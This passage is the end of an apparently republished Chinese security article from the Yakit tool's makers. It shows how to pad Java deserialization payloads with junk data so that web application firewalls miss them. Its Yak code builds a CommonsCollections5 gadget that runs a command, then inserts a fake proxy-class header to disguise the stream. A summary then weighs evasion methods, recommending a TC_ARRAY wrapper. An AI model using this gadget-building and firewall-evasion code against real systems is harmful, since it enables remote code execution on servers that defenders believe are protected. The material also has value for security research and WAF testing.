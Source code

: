 ```

println(codec.EncodeBase64(res))
``` 
  
# **TC_PROXYCASSDESC**  
  
在解析proxyClassDesc时会先解析代理头，再继续解析class。所以可以给gadget加个代理头,而代理头可以无限塞接口名。   
```
serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~

newPayload = ""
newPayload += string(payload[:5]) // aced 和 TC_OBJECT
newPayload += string("\x7d")
newPayload += string("\x00\x00\x00\x01") // 1个interface
newPayload += string("\x00\x02") // 长度是2
newPayload += "aa" // 一个接口名叫aa(会查找aa class)
newPayload += "\x7b"
newPayload += string(payload[4:]) // classData

println(codec.EncodeBase64(newPayload))
```  
  
# **总结**    
  
TC_RESET是最简单的，适合临时测试时手工加，而且对解析流程影响不大，但大量的TC_RESET在aced流中特征挺明显的。  
  
handle table错乱的问题可以暂时用\x7b解决，但会抛出异常。除此外也可以把所有引用值重新生成，或将所有的引用都改为实例来解决。当然如果是用java自动生成的序列化流就不会有这问题。  
  
Java更新迭代了这么多版本，为了兼容性，不可避免的做一些兼容处理，除了上述的方式应该还有很多办法，但贵不在多，目前觉得比较好用的是外面包一层TC_ARRAY，生成的payload是标准序列化流，兼容性最好，后面会在Yso JavaHack中采用这种方式塞脏数据。  
  
## **参考：**    
  
https://mp.weixin.qq.com/s/wvKfe4xxNXWEgtQE4PdTaQ  
  
https://y4tacker.github.io/2022/02/05/year/2022/2/%E5%AF%B9Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%95%B0%E6%8D%AE%E7%BB%95WAF%E6%96%B0%E5%A7%BF%E5%8A%BF%E7%9A%84%E8%A1%A5%E5%85%85/  
  
  
**END**  
  
  
  
 **YAK官方资源**  
  
  
Yak 语言官方教程：  
https://yaklang.com/docs/intro/Yakit   
视频教程：  
https://space.bilibili.com/437503777Github  
下载地址：  
https://github.com/yaklang/yakitYakit  
官网下载地址：  
https://yaklang.com/Yakit  
安装文档：  
https://yaklang.com/products/download_and_install  
Yakit使用文档：  
https://yaklang.com/products/intro/  
常见问题速查：  
https://yaklang.com/products/FAQ  
  
![](/articles/wechat2md-85062b6e6c63b9d9d17d1e2a5ca2ec01.other)  
长按识别添加工作人员
开启Yakit进阶之旅  
![](/articles/wechat2md-14665f86963c7c123b43378ebc55bb0f.other)